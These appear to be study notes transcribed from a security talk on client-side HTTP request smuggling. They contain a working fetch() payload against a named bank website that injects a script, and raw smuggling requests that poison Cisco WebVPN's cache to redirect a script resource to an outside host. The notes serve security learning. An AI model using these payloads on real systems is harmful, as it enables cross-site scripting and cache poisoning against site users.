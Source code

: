  And when you are doing service side request smuggling, it's that simple, but because this is cliend-side, there's a couple of other things that we need to fix first. The first problem is that the initial request coming back to the browser is a 301 redirect. And as such, the browser is just gonna follow that redirec, and that's gonna use the poison connection and mess up our attack. The second problem is the stacked response problem. Whenever Chrome reads in a response from the server, it deliberately does a little overread. It tries read more data than the server said is was gonna send just to see if there's any extra data lying around. And if it sees anything, it quietly dumps de connection and breaks the attack. So fortunately, both issues are easily resolved on Akamai. 
 ```
fetch('https://www.capitalone.ca/assets', {
	method: 'POST',

	// use a cache-buster to delay the response
	body: `HEAD /404/?cb=${Date.now()} HTTP/1.1
		Host: www.capitalone.ca

		GET /x?x=<script>alert(1)</script> HTTP/1.1
		X: Y`,
	credentials: 'include',
	mode: 'cors' //trhpw an error instead od following redirect
}).cath(() => {
	location = 'https://www.capitalone.ca/'
})
 ```
 
![[Pasted image 20240810231837.png]]
So fortunately, both issues are easily resolved on Akamai. So you can fix the stacked response problem by delaying the second response. So it arrives after Chrome does its little check. So in this scenario, i was able to do this by adding a cache, by adding a cache-buster to the request so that it incured a cache miss, went all the way to the back-end, which was slow and old and therefore took ages to respond and meant that it arrived late Chrome didn't see it. The second problem of the browser redirect is easily fixed by changing mode, no cause to mode cause, which means when the browsers sees the redirect, it throws an exception which we can then catch ourselves and continue with our attack, ultimately, leading to a successful exploit.

### Cisco Web VPN -Client-side cache poisoning
For our next target, we'll hit Cisco's web VPN.
~~~
POST / HTTP/1.1
Host: redacted.com
Content-Length: 46

GET /+webvpn/ HTTP/1.1
Host: psres.net
X: YGET /+CSCOE+/win.js HTTP/1.1
Host: redacted.com
~~~
~~~RESPONSE1
HTTP/1.1 200 OK
~~~

```RESPONSE2
HTTP/1.1 301 Moved Permanently
Location: https://psres.net/+webvpn+/index
```
![[Pasted image 20240810235754.png]]